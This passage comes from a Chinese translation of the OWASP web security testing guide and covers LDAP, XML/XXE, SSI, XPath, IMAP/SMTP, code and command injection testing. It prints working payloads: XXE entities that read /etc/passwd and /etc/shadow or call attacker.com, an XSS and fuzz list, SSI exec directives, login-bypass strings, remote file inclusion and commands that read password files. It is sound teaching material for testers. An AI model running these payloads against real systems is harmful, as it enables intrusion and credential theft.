搜索过滤器结果是：
```searchlogin="(&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))";```
这样测试人员就能已登录状态访问LDAP树了。

### 工具

softerra LDAP Browser

### 参考
LDAP Injection Prevention Cheat Sheet

## XML注入测试	Testing for XML Injection

ID:WSTG-INPV-07
### 概述

XML注入是将XML文档注入到应用输入点的行为。如果XML解析器无法根据上下文验证数据，则可能发生一些信息泄露。本节描述XML注入的实际示例。首先，将定义XML样式的通信并解释其工作原理。然后，我们尝试插入XML元字符的发现方法。一旦完成第一步，测试人员将获得有关XML结构的一些信息，因此可以尝试注入XML数据和标记（标记注入）。

### 测试方法

假设某个web应用使用XML样式的通信来执行用户注册。这一点通过在一个xmlDb文件中增加一个新的```<user>```节点来实现。假设xmlDb文件如下：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
</users>
```

当用户使用HTML表单注册，应用在标准请求中接收到用户的数据，简单考虑它使用了GET方法，例如：
```
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com
```
则请求如下：```http://www.example.com/addUser.php?username=tony&password=Un6R34kb!e&email=s4tan@hell.com```

应用接收请求后会构建下列节点：
```xml
<user>
    <username>tony</username>
    <password>Un6R34kb!e</password>
    <userid>500</userid>
    <mail>s4tan@hell.com</mail>
</user>
```
然后假如到xmlDb中：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
    <username>tony</username>
    <password>Un6R34kb!e</password>
    <userid>500</userid>
    <mail>s4tan@hell.com</mail>
    </user>
</users>
```
#### 发现
第一步，为了测试应用是否存在xml注入漏洞，可以尝试插入XML元字符。XML元字符是：
##### 单引号 ```'```

如果注入的值将成为标签中属性值的一部分，则在不进行清理的情况下，此字符可能会在XML解析期间引发异常。

例如：有这样的属性：```<node attrib='$inputValue'/>```

因此，如果：```inputValue=foo'```

实例化后被插入到属性值：```<node attrib='foo''/>```

这样的话，最终XML文档的形式就有问题。

##### 双引号```"```

此字符与单引号含义相同，如果属性值用双引号引起来，则可以使用此字符进行注入字符串构建。例如：```<node attrib="$inputValue"/>```。所以如果有```$inputValue=foo"```，那么会替换为：```<node attrib="foo""/>```，生成的xml文档也是不良形式。
- 角括号```>```和```<```，产生新节点。例如在用户输入中键入：```username=foo<```,会产生新节点：

```
<user>
    <username>foo<</username>
    <password>Un6R34kb!e</password>
    <userid>500</userid>
    <mail>s4tan@hell.com</mail>
</user>
```
但是，因为有打开的<号，结果XML是有问题的。

##### 注释标记```<!--/-->```

这段字符序列作为一段注释的开始和结尾。注入到用户输入框中的示例：```username=foo<!--```.
应用会构建一个类似下面的节点：
```xml
<user>
    <username>foo<!--</username>
    <password>Un6R34kb!e</password>
    <userid>500</userid>
    <mail>s4tan@hell.com</mail>
</user>
```

这也不是一个有效的XML

##### ```&```字符

这个字符在XML中表示实体。实体格式为```&symbol;```，一个实体被映射到一个unicode字符集中。

例如：```<tagnode>&lt;</tagnode>```是有效形式，表达```<``` ASCII 字符。

如果```&```不以```&amp;```编码，它也可以用于测试XML注入漏洞。事实上，如果一个输入如下例：```username=&foo```,新节点将被生成：
```xml
<user>
    <username>&foo</username>
    <password>Un6R34kb!e</password>
    <userid>500</userid>
    <mail>s4tan@hell.com</mail>
</user>
```

这个形式是无效的，因为少了个;号

##### ```CDATA```节分隔符

```<!\[CDATA\[/]]>```。CDATA节用于转义包含不想被识别为标记的字符串组成的块。包含在CDATA 节中的字符不会被XML解析。
  
例如：需要表达字符串```<foo>```时，可以使用下列形式：
```
<node>
    <![CDATA[<foo>]]>
</node>
```

所以，```<foo>```不会被解析为标签。如果一个节点以下列形式构建：
```<username><![CDATA[<$userName]]></username>```

那测试人员可以尝试注入一个CDATA结尾字符串```]]>```，使XML无效。例如```<username><![CDATA[]]>]]></username>```，这不是一个形式完整的XML片段。

有关CDATA标记的另一项测试，可用于XML文档被处理生成一个HTML页面时。此时CDATA 节分隔符可能简单的删去，不用检查它的内容。这样可能注入HTML标记，这个标记包含在生成的页面中，完全绕过了xml清洗机制。

下面的示例显示了一个含有一些文本的节点，它将回显给用户：
```
<html>
    $HTMLCode
</html>
```
然后，攻击者会给出下列的输入：
```$HTMLCode = <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```
后台xml解析时会把CDATA节去掉，生成下列HTML代码：
```
<script>
    alert('XSS')
</script>
```
这类似于XSS攻击。

##### 外部实体

可以通过定义新实体来扩展有效实体集。如果实体的定义是URI，则该实体称为外部实体。

除非配置为其他方式，否则外部实体将强制XML解析器访问URI指定的资源，例如，本地计算机或远程系统上的文件。此行为使应用程序受到XML eXternal Entity（XXE）攻击，该攻击可用于执行本地系统的拒绝服务，未经授权访问本地计算机上的文件，扫描远程计算机以及执行远程系统的拒绝服务。 。

要测试XXE漏洞，可以使用以下输入：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///dev/random" >]>
        <foo>&xxe;</foo>
```

如果XML解析器尝试将实体替换为```/dev/random```文件的内容，则此测试可能会使Web服务器（在UNIX系统上）崩溃。

其他有用的测试如下：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

#### 标记注入
完成第一步后，测试人员将获得有关XML文档结构的一些信息。然后，可以尝试注入XML数据和标签。我们将显示一个示例，说明如何导致特权升级攻击。

让我们考虑先前的应用程序。通过插入以下值：
```
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com
```

该应用程序将构建一个新节点并将其附加到XML数据库：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail>
        <userid>0</userid>
        <mail>s4tan@hell.com</mail>
    </user>
</users>
```

上面生成的XML文件格式是正确的。对于用户tony而言，与userid标记关联的值可能是最后出现的那个值，即0（管理员ID）。换句话说，我们为用户注入了管理权限。

唯一的问题是userid标记在最后一个用户节点中出现两次。通常，XML文档与模式或DTD相关联，如果它们不符合要求，则将被拒绝。

让我们假设XML文档是由以下DTD指定的：
```xml
<!DOCTYPE users [
    <!ELEMENT users (user+) >
    <!ELEMENT user (username,password,userid,mail+) >
    <!ELEMENT username (#PCDATA) >
    <!ELEMENT password (#PCDATA) >
    <!ELEMENT userid (#PCDATA) >
    <!ELEMENT mail (#PCDATA) >
]>
```

请注意，userid节点是用基数1定义的。在这种情况下，如果XML文档在进行任何处理之前已针对其DTD进行了验证，那么我们之前显示的攻击（以及其他简单攻击）将不起作用。

但是，如果测试人员控制有问题的节点（在此示例中为userid）之前的某些节点的值，则可以解决此问题。实际上，测试人员可以通过注入注释开始/结束序列来注释掉这样的节点：
```
Username: tony
Password: Un6R34kb!e</password><!--
E-mail: --><userid>0</userid><mail>s4tan@hell.com
```
在这种情况下，最终的XML数据库是：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password><!--</password>
        <userid>500</userid>
        <mail>--><userid>0</userid><mail>s4tan@hell.com</mail>
    </user>
</users>
```
原始userid节点已被注释掉，仅保留注入的节点。该文档现在符合其DTD规则。

#### Source Code Review

如果以下Java API配置不正确，则可能容易受到XXE的攻击。

- javax.xml.parsers.DocumentBuilder
- javax.xml.parsers.DocumentBuildFactory
- org.xml.sax.EntityResolver
- org.dom4j.*
- javax.xml.parsers.SAXParser
- javax.xml.parsers.SAXParserFactory
- TransformerFactory
- SAXReader
- DocumentHelper
- SAXBuilder
- SAXParserFactory
- XMLReaderFactory
- XMLInputFactory
- SchemaFactory
- DocumentBuilderFactoryImpl
- SAXTransformerFactory
- DocumentBuilderFactoryImpl
- XMLReader
- Xerces: DOMParser, DOMParserImpl, SAXParser, XMLParser

检查源代码是否将docType，外部DTD和外部参数实体设置为禁止使用。具体可查看[XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)。

此外，版本低于3.10.1的Java POI officer reader 可能存在XXE漏洞。

POI库的版本可以从JAR文件名中识别，例如：poi-3.8.jar，poi-ooxml-3.8.jar

下列源代码关键词可用于C语言下的XXE漏洞发现：
```libxml2: xmlCtxtReadMemory,xmlCtxtUseOptions,xmlParseInNodeContext,xmlReadDoc,xmlReadFd,xmlReadFile ,xmlReadIO,xmlReadMemory, xmlCtxtReadDoc ,xmlCtxtReadFd,xmlCtxtReadFile,xmlCtxtReadIO```

```libxerces-c: XercesDOMParser, SAXParser, SAX2XMLReader```

### tools

[xml injection fuzz strings](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/XML.txt),内容如下：

```xml
count(/child::node())
x' or name()='username' or 'x'='y
<name>','')); phpinfo(); exit;/*</name>
<![CDATA[<script>var n=0;while(true){n++;}</script>]]>
<![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]>
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/passwd">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/shadow">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////dev/random">]><foo>&xxe;</foo>
<xml ID=I><X><C><![CDATA[<![CDATA[cript:alert('XSS');">]]>
<xml ID="xss"><I><B>&lt;IMG SRC="javas<!-- -->cript:alert('XSS')"&gt;</B></I></xml><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<xml SRC="xsstest.xml" ID=I></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<HTML xmlns:xss><?import namespace="xss" implementation="http://ha.ckers.org/xss.htc"><xss:xss>XSS</xss:xss></HTML>
© 2020 GitHub, Inc.
```
### 参考

- XML Injection
- Gregory Steuck, “XXE (Xml eXternal Entity) attack”
- OWASP XXE Prevention Cheat Sheet

##  SSI注入测试 Testing for SSI Injection

### 摘要
Web服务器允许开发人员常在静态HTML页面内添加少量动态代码，这一特性体现在 Server-Side Includes （SSI）功能。在SSI注入测试中，我们测试是否有可能将由SSI机制解释的数据注入到应用程序中。成功利用此漏洞，攻击者可以将代码注入HTML页面，甚至执行远程代码执行。

Server-Side Includes 是Web服务器在将页面提供给用户之前解析的指令。当只需要执行非常简单的任务时，它们是使用服务器端脚本语言编写CGI程序或嵌入代码的替代方法。常见的SSI实现提供的命令包括：引入外部文件、设置并打印web服务器CGI变量、以及执行外部CGI脚本或系统命令。

将SSI指令放入静态HTML文档就像编写如下代码一样容易：

```<!--#echo var="DATE_LOCAL" -->``` 可以输出当前时间。

```<!--#include virtual="/cgi-bin/counter.pl" -->``` 可以引入CGI脚本的输出。

```<!--#include virtual="/footer.html" -->```, 可以在目录中包含文件或列表文件的内容。

```<!--#exec cmd="ls" -->```，可以引入系统命令的输出。

如果启用了Web服务器的SSI支持，则服务器将解析这些指令。通常，在默认配置中，大多数Web服务器不允许使用exec指令执行系统命令。

像在每种错误的输入验证情况下一样，当允许Web应用程序的用户提供使应用程序或Web服务器无法正常工作的数据时，就会出现问题。关于SSI注入，攻击者可能会提供输入，如果输入被应用程序（或可能直接由服务器）插入到动态生成的页面中，则该输入将被解析为一个或多个SSI指令。

此漏洞与经典脚本语言注入漏洞非常相似。一种缓解措施是，需要将Web服务器配置为允许SSI。另一方面，SSI注入漏洞通常更易于利用，因为SSI指令易于理解，同时功能非常强大，例如，它们可以输出文件的内容并执行系统命令。

### 测试方法
#### 黑匣子测试

第一步，是查找Web服务器是否实际上支持SSI指令。

通常，答案是肯定的，因为SSI支持非常普遍。为了找到答案，我们只需要使用经典的信息收集技术来发现目标服务器上正在运行哪种Web服务器。无论我们是否成功发现这条信息，我们都可以仅通过查看目标网站的内容来猜测是否支持SSI。如果包含.shtml文件，则可能支持SSI，因为此扩展名用于标识包含这些指令的页面。不幸的是.shtml扩展名的使用不是强制性的，因此未找到任何shtml文件并不一定意味着目标不容易受到SSI注入攻击。

第二步，要确定是否能够进行SSI注入攻击，如果可以，则确定使用哪些输入点注入恶意代码。

为此所需的测试活动与用于测试其他代码注入漏洞的活动完全相同。特别是，我们需要查找到允许用户提交某种输入的每个页面，并验证应用程序是否正确地验证了提交的输入。如果输入验证和清洗不足，我们需要测试是否可以提供将要显示的未经修改的数据（例如，在错误消息或论坛帖子中）。除了常见的用户提供的数据外，应始终考虑的输入向量是HTTP请求标头和cookie内容，因为它们很容易伪造。

第三步，有了潜在的注入点列表后，我们可以检查输入是否正确验证，然后找出所提供输入的存储位置。我们需要确保可以注入SSI指令中使用的字符：

```< ! # = / . " - > and [a-zA-Z0-9]```

为了测试验证是否足够，我们可以输入如下字符串：

```<!--#include virtual="/etc/passwd" -->```

这类似于使用以下命令测试XSS漏洞: ```<script>alert("XSS")</script>```

如果应用程序容易受到攻击，则会执行注入指令，并且该指令将在下一次服务该页面时由服务器解释，从而包括Unix标准密码文件的内容。

如果Web应用程序将使用该数据来构建动态生成的页面，则也可以在HTTP标头中执行注入：
```
GET / HTTP/1.0
Referer: <!--#exec cmd="/bin/ps ax"-->
User-Agent: <!--#include virtual="/proc/version"-->
```

#### 灰盒测试
如果我们可以访问应用程序源代码，则可以很容易地找到：
- 是否使用SSI指令。如果是，则Web服务器将启用SSI支持，这至少使SSI注入成为潜在的调查问题。
- 在何处处理：用户输入处、cookie、HTTP标头。可以快速确定输入向量的完整列表。
- 如何处理输入，执行哪种过滤，应用程序不允许通过哪些字符以及考虑几种编码类型。

执行这些步骤主要是使用grep在源代码内找到正确的关键字（SSI指令，CGI环境变量，涉及用户输入的变量分配，过滤功能等）。

### Tools
Web Proxy Burp Suite
OWASP ZAP
String searcher: grep
### References
Whitepapers
Apache Tutorial: “Introduction to Server Side Includes”
Apache: “Module mod_include”
Apache: “Security Tips for Server Configuration”
Header Based Exploitation
SSI Injection instead of JavaScript Malware
IIS: “Notes on Server-Side Includes (SSI) syntax”

## XPATH注入测试 Testing for XPath Injection

### 摘要
XPath是一种主要为解决XML文档内容的定位而设计和开发的语言。在XPath注入测试中，我们测试是否可以将XPath语法注入请求并被到应用程序解释，从而允许攻击者执行用户控制的XPath查询。成功利用此漏洞后，攻击者可能会未经适当的授权就绕过身份验证机制或访问信息。

Web应用程序大量使用数据库来存储和访问其操作所需的数据。从历史上看，关系数据库一直是最常用的数据存储技术，但是在最近几年中，我们见证了使用XML语言组织数据的数据库的日益普及。就像通过SQL语言访问关系数据库一样，XML数据库也使用XPath作为其标准查询语言。

因为从概念上讲，XPath在目的和应用方面与SQL非常相似，所以有趣的结果是XPath注入攻击遵循与SQL注入攻击相同的逻辑。在某些方面，XPath比标准SQL甚至更强大，因为它的全部功能已经存在于其规范中，而SQL注入攻击中可以使用的大量技术取决于SQLPath使用的SQL方言的特征、目标数据库。这意味着XPath注入攻击可能更具适应性和普遍性。XPath注入攻击的另一个优点是，与SQL不同，没有强制执行A​​CL，因为我们的查询可以访问XML文档的每个部分。

### 测试方法

XPath的攻击模式最早是由[阿米特克莱恩出版](http://dl.packetstormsecurity.net/papers/bypass/Blind_XPath_Injection_20040518.pdf)，非常类似于通常的SQL注入。为了初步了解问题，让我们想象一个登录页面，该页面管理对应用程序的身份验证，用户必须在其中输入他/她的用户名和密码。假设我们的数据库由以下XML文件表示：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <account>admin</account>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <account>guest</account>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password>
        <account>guest</account>
    </user>
</users>
```

一个返回用户名gandalf和密码为```!c3```的帐户的XPath查询如下：

```string(//user[username/text()='gandalf' and password/text()='!c3']/account/text())```

如果应用程序未正确过滤用户输入，则测试人员将能够注入XPath代码并干扰查询结果。例如，测试人员可以输入以下值：
```
Username: ' or '1' = '1
Password: ' or '1' = '1
```
看起来很熟悉，不是吗？使用这些参数，查询变为：

```string(//user[username/text()='' or '1' = '1' and password/text()='' or '1' = '1']/account/text())```

与常见的SQL注入攻击一样，我们创建了一个始终为true的查询，这意味着即使未提供用户名或密码，应用程序也将对用户进行身份验证。与使用XPath注入的常见SQL注入攻击一样，第一步是'在要测试的字段中插入单引号（），在查询中引入语法错误，并检查应用程序是否返回错误消息。

如果不了解XML数据内部细节，并且应用程序未提供有用的错误消息来帮助我们重建其内部逻辑，则有可能执行Blind XPath Injection攻击，其目的是重建整个数据结构。该技术类似于基于推理的SQL注入，因为该方法是注入创建可返回一位信息的查询的代码。Amit Klein在参考文件中更详细地解释了盲XPath注入。

### References
Whitepapers
Amit Klein: “Blind XPath Injection”
XPath 1.0 specifications

## IMAP/SMTP注入测试 Testing for IMAP/SMTP Injection

ID:WSTG-INPV-10

### 摘要

此威胁影响与邮件服务器（IMAP / SMTP）通信的所有应用程序，通常是Webmail应用程序。该测试的目的是验证由于输入数据未正确被清洗，而将任意IMAP / SMTP命令注入到邮件服务器的能力。

对于不是直接从Internet访问的邮件服务器，则IMAP / SMTP注入技术会更有效。如果可以与后端邮件服务器进行全面通信，则建议进行直接测试。

IMAP / SMTP注入改变了无法从Internet直接访问该邮件服务器的情况，使访问邮件服务器成为可能。在某些情况下，这些内部系统不具有与前端Web服务器相同级别的基础结构安全性和增强功能。因此，邮件服务器可能更容易受到最终用户的攻击（请参阅图1中所示的方案：使用IMAP / SMTP注入技术与邮件服务器的通信）。



图中描述了使用Webmail技术时通常看到的流量流。步骤1和2是用户与Webmail客户端进行交互，而步骤2是测试人员绕过Webmail客户端并直接与后端邮件服务器进行交互。

此技术允许进行多种操作和攻击。可能性取决于注入的类型和范围，以及要测试的邮件服务器。

使用IMAP / SMTP注入技术的一些攻击示例如下：
- 利用IMAP / SMTP协议中的漏洞
- 逃避应用程序限制
- 反自动化过程规避
- 信息泄漏
- 中继/垃圾邮件
### 测试方法
标准攻击模式为：
- 识别易受攻击的参数
- 了解客户端的数据流和部署结构
- IMAP / SMTP命令注入

#### 识别易受攻击的参数
为了检测易受攻击的参数，测试人员必须分析应用程序处理输入的能力。输入验证测试要求测试人员向服务器发送虚假或恶意的请求，并分析响应。在安全的应用程序中，响应应该是一个错误，并采取一些相应的措施告诉客户端出了点问题。在易受攻击的应用程序中，后端应用程序可能会处理恶意请求，并以HTTP 200 OK响应消息进行答复。

要注意，发送的请求应与正在测试的技术相匹配。即在判断后台使用IMAP协议时，再发送恶意IMAP命令才有可能获得正确的测试结果。

可用的IMAP特殊参数有：

|在IMAP服务器上|在SMTP服务器上|
|-|-|
|Authentication	Emissor |e-mail|
|operations with mail boxes (list, read, create, delete, rename)	|Destination e-mail|
|operations with messages (read, copy, move, delete)|	Subject|
|Disconnection|	Message body|
||Attached files|

在下面的示例中，通过操作带有以下参数的各种请求来测试“mailbox”参数：
```http://<webmail>/src/read_body.php?mailbox=INBOX&passed_id=46106&startMessage=1```

可以使用以下示例。
- 为参数分配一个空值：```http://<webmail>/src/read_body.php?mailbox=&passed_id=46106&startMessage=1```

- 用一个随机值替换该值：```http://<webmail>/src/read_body.php?mailbox=NOTEXIST&passed_id=46106&startMessage=1```

- 将其他值添加到参数：```http://<webmail>/src/read_body.php?mailbox=INBOX PARAMETER2&passed_id=46106&startMessage=1```

- 添加非标准特殊字符（即```\ ' “ @ ＃ ！ |```）：```http://<webmail>/src/read_body.php?mailbox=INBOX"&passed_id=46106&startMessage=1```

- 消除参数：```http://<webmail>/src/read_body.php?passed_id=46106&startMessage=1```

上述测试的最终结果为测试人员提供了三种可能的情况：
- S1-应用程序返回错误代码/消息
- S2-应用程序未返回错误代码/消息，但未实现请求的操作
- S3-应用程序不返回错误代码/消息，并实现正常要求的操作

情况S1和S2代表成功的IMAP / SMTP注入。

攻击者的目的是接收S1响应，因为它表明该应用程序容易受到注入和进一步操纵的攻击。

假设用户使用以下HTTP请求检索电子邮件标头：

```http://<webmail>/src/view_header.php?mailbox=INBOX&passed_id=46105&passed_ent_id=0```

攻击者可能会通过注入双引号字符"(使用URL编码%22)来修改参数INBOX的值：

```http://<webmail>/src/view_header.php?mailbox=INBOX%22&passed_id=46105&passed_ent_id=0```

在这种情况下，应用程序答案可能是：
```
ERROR: Bad or malformed request.
Query: SELECT "INBOX""
Server responded: Unexpected extra arguments to Select
```

情况S2很难成功测试。测试人员需要使用盲命令注入来确定服务器是否易受攻击。

另一方面，最后的情况（S3）在本段中并不明确。

#### 理解客户端的数据流和部署结构

在确定所有易受攻击的参数（例如passed_id）之后，测试人员需要确定可能的注入级别，然后设计测试计划以进一步利用该应用程序。

在此测试案例中，我们检测到该应用程序的passed_id参数容易受到攻击，并在以下请求中使用了该参数：

```http://<webmail>/src/read_body.php?mailbox=INBOX&passed_id=46225&startMessage=1```

使用以下测试用例（在需要数字值时提供字母值）：

```http://<webmail>/src/read_body.php?mailbox=INBOX&passed_id=test&startMessage=1```

将生成以下错误消息：
```
ERROR : Bad or malformed request.
Query: FETCH test:test BODY[HEADER]
Server responded: Error in IMAP command received by server.
```

在此示例中，错误消息返回了已执行命令的名称和相应的参数。

在其他情况下，错误消息（```not controlled ```由应用程序提供）包含已执行命令的名称，但是读取适当的RFC可使测试人员了解可以执行哪些其他可能的命令。

如果应用程序未返回描述性错误消息，则测试人员需要分析受影响的功能，以推断与上述功能相关的所有可能的命令（和参数）。例如，如果在创建邮箱功能中检测到易受攻击的参数，则逻辑上假定受影响的IMAP命令为CREATE。根据RFC，该CREATE命令接受一个参数，该参数指定要创建的邮箱的名称。

受影响的IMAP / SMTP命令列表:
- 受影响的IMAP / SMTP命令期望的参数的类型，值和数量

#### IMAP / SMTP命令注入
一旦测试人员确定了易受攻击的参数并分析了执行它们的上下文，下一步便是利用该功能。

这个阶段有两个可能的结果：
- 注入有可能在未经身份验证的状态下进行：受影响的功能不要求对用户进行身份验证。可用的注射（IMAP）的命令被限制为：CAPABILITY，NOOP，AUTHENTICATE，LOGIN，和LOGOUT。
- 仅在经过身份验证的状态下才可以进行注入：成功的利用需要在继续测试之前对用户进行完全身份验证。


IMAP / SMTP注入的典型结构如下：
- Header：预期命令的结尾；
- Body：注入新命令；
- Footer：预期命令的开头。

要记住，为了执行IMAP / SMTP命令，前一个命令必须以CRLF（%0d%0a）序列终止。

假设在“ 识别易受攻击的参数”阶段中，攻击者检测到message_id以下请求中的参数易受攻击：

```http://<webmail>/read_email.php?message_id=4791```

我们还假设在阶段2中执行的分析结果（“了解客户端的数据流和部署结构”）已将与该参数关联的命令和参数标识为：

```FETCH 4791 BODY[HEADER]```

在这种情况下，IMAP注入结构将是：

```http://<webmail>/read_email.php?message_id=4791 BODY[HEADER]%0d%0aV100 CAPABILITY%0d%0aV101 FETCH 4791```

这将生成以下命令：
```
???? FETCH 4791 BODY [HEADER]
V100 CAPABILITY
V101 FETCH 4791 BODY [HEADER]
```
其中：
```
Header = 4791 BODY[HEADER]
Body   = %0d%0aV100 CAPABILITY%0d%0a
Footer = V101 FETCH 4791
```
受影响的IMAP / SMTP命令列表:
- 任意IMAP / SMTP命令注入

### 参考文献
RFC 0821 “Simple Mail Transfer Protocol"
RFC 3501 “Internet Message Access Protocol - Version 4rev1”
Vicente Aguilera Díaz: “MX Injection: Capturing and Exploiting Hidden Mail Servers"

## 代码注入测试 Testing for Code Injection
ID WSTG-INPV-11

### 概述
本节介绍测试人员如何检查是否可以在网页上输入代码，并由Web服务器执行代码。

在代码注入测试中，测试人员提交输入，该输入由Web服务器处理为动态代码或包含文件。这些测试可以针对各种服务器端脚本引擎，例如ASP或PHP。需要采用适当的输入验证和安全的编码做法来防止这些攻击。

### 测试方法
#### 黑匣子测试
##### 测试PHP注入漏洞
使用查询字符串，测试人员可以注入要处理的代码（在此示例中为恶意URL），作为包含文件的一部分：

```http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a```

恶意URL被接受为PHP页面的参数，该页面稍后将使用包含文件中的值。

#### 灰盒测试
##### 测试ASP代码注入漏洞
检查ASP代码以获取执行功能中使用的用户输入。用户可以在“数据输入”字段中输入命令吗？在这里，ASP代码会将输入保存到文件中，然后执行它：
```aspx
<%
If not isEmpty(Request( “Data” ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject(“Scripting.FileSystemObject”)
Set f = fso.OpenTextFile(Server.MapPath( “data.txt” ), 8, True)
f.Write Request(“Data”) & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( “data.txt” )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```
### References
Security Focus
Insecure.org
Wikipedia
Reviewing Code for OS Injection

## 命令注入测试	Testing for Command Injection
ID : WSTG-INPV-12

### 摘要
本文介绍如何测试应用程序的OS命令注入。测试人员将尝试通过HTTP请求向应用程序注入OS命令。

OS命令注入是通过Web界面使用的一种技术，用于在Web服务器上执行OS命令。用户通过Web界面提供操作系统命令，以执行OS命令。任何未正确进行输入清洗的Web界面都将受到此攻击。具有执行OS命令的能力，用户可以上传恶意程序，甚至获取密码。在应用程序的设计和开发过程中强调安全性时，可以防止OS命令注入。

### 测试方法
在Web应用程序中查看文件时，文件名通常显示在URL中。Perl允许将流程中的数据传送到开放语句中。用户只需将Pipe符号附加|到文件名的末尾即可。

更改前的示例网址：```http://sensitive/cgi-bin/userData.pl?doc=user1.txt```

示例网址已修改：```http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|```

这将执行命令/bin/ls。

在.PHP页面的URL末尾添加分号，然后再加上操作系统命令，将执行该命令。```%3B```分号的URL编码

例：```http://sensitive/something.php?dir=%3Bcat%20/etc/passwd```

#### 示例

考虑一个包含一组文档的应用程序，您可以从Internet浏览这些文档。如果启动个人代理（例如ZAP或Burp Suite），则可以获取POST HTTP，如下所示：
```
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

在POST请求中，我们注意到应用获取了公开文档。现在我们可以测试是否可能增加一个OS命令，注入到POST请求中，例如：
```
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
